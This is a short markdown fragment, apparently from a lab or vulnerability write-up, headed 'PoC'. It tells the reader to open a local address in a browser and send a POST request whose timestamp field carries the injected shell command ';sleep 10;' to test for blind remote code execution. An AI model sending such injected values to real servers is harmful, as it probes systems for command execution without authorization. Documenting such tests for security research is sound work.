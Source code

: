 # PoC

- open in browser `http://10.0.2.10`
- POST request with test blind RCE `&timestamp=;sleep 10;`